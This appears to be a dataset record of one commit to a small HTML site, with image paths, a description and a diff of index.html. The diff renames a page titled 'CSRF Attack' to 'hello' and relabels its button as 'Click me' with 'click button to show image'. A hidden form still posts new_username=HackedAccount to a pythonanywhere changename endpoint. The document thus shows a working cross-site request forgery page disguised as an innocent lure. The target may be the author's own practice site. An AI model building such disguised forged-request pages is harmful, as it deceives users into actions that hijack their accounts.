

Before and after one commit to Tigerabhishek/goodweb, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,10 +3,11 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>CSRF Attack</title>
+    <title>hello</title>
 </head>
 <body>
-    <button id="csrfButton">Change Username</button>
+    <p>click button to show image</p>
+    <button id="csrfButton">Click me</button>
 
     <form id="csrfForm" action="https://goodweb.pythonanywhere.com/changename" method="post" style="display:none;">
         <input type="hidden" name="new_username" value="HackedAccount">
```
